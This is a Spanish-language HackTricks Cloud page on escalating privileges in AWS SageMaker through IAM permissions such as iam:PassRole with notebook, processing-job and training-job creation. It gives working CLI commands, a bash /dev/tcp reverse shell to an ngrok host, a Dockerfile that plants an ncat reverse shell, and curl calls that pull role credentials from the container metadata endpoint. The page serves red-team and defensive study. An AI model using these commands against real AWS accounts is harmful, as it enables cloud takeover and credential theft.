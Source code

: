 # AWS - Escalada de privilegios en Sagemaker

## AWS - Escalada de privilegios en Sagemaker

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en equipos rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comienza creando un cuaderno con el Rol IAM adjunto para acceder a él:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
El siguiente contenido debe contener un campo `NotebookInstanceArn`, que contendrá el ARN de la nueva instancia de notebook creada. Luego podemos usar la API `create-presigned-notebook-instance-url` para generar una URL que podremos utilizar para acceder a la instancia de notebook una vez que esté lista:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Accede a la URL con el navegador y haz clic en \`Open JupyterLab\` en la esquina superior derecha, luego desplázate hacia abajo hasta la pestaña "Launcher" y, en la sección "Other", haz clic en el botón "Terminal".

Ahora es posible acceder a las credenciales de metadatos del Rol IAM.

**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Si ya hay **notebooks de Jupyter en ejecución** y puedes listarlos con `sagemaker:ListNotebookInstances` (o descubrirlos de cualquier otra manera). Puedes **generar una URL para ellos, acceder a ellos y robar las credenciales como se indica en la técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un processingjob** con un rol de sagemaker adjunto a él. El atacante puede indicar la definición del contenedor que se ejecutará en una **instancia de cuenta ECS administrada por AWS**, y **robar las credenciales del rol de IAM adjunto**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el atacante podrá robar las credenciales del rol.

{% hint style="warning" %}
Este escenario es más difícil de explotar que el anterior porque necesitas generar una imagen de Docker que enviará la shell inversa o credenciales directamente al atacante (no puedes indicar un comando de inicio en la configuración del trabajo de entrenamiento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un atacante con esos permisos (potencialmente) podrá crear un **trabajo de ajuste de hiperparámetros**, **ejecutar un contenedor arbitrario** en él con un **rol adjunto**.\
_No he explotado debido a la falta de tiempo, pero parece similar a los exploits anteriores, siéntase libre de enviar un PR con los detalles de la explotación._

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
